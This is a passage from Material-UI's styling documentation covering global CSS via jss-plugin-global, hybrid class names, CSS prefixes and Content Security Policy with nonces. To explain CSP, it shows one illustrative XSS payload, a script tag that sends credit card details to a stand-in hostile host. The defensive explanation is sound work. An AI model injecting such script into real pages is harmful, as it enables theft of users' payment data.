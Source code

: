 {{"demo": "pages/styles/advanced/GlobalClassName.js"}}

## Global CSS

### `jss-plugin-global`

The [`jss-plugin-global`](#jss-plugins) plugin is installed in the default preset. You can use it to define global class names.

{{"demo": "pages/styles/advanced/GlobalCss.js"}}

### Hybrid

You can also combine JSS generated class names with global ones.

{{"demo": "pages/styles/advanced/HybridGlobalCss.js"}}

## CSS prefixes

JSS uses feature detection to apply the correct prefixes. [Don't be surprised](https://github.com/mui-org/material-ui/issues/9293) if you can't see a specific prefix in the latest version of Chrome. Your browser probably doesn't need it.

## Content Security Policy (CSP)

### What is CSP and why is it useful?

Basically, CSP mitigates cross-site scripting (XSS) attacks by requiring developers to whitelist the sources their assets are retrieved from. This list is returned as a header from the server. For instance, say you have a site hosted at `https://example.com` the CSP header `default-src: 'self';` will allow all assets that are located at `https://example.com/*` and deny all others. If there is a section of your website that is vulnerable to XSS where unescaped user input is displayed, an attacker could input something like:

```html
<script>
  sendCreditCardDetails('https://hostile.example');
</script>
```

This vulnerability would allow the attacker to execute anything. However, with a secure CSP header, the browser will not load this script.

You can read more about CSP on the [MDN Web Docs](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP).

### How does one implement CSP?

In order to use CSP with Material-UI (and JSS), you need to use a nonce. A nonce is a randomly generated string that is only used once, therefore you need to add server middleware to generate one on each request. JSS has a [great tutorial](https://github.com/cssinjs/jss/blob/master/docs/csp.md) on how to achieve this with Express and React Helmet. For a basic rundown, continue reading.
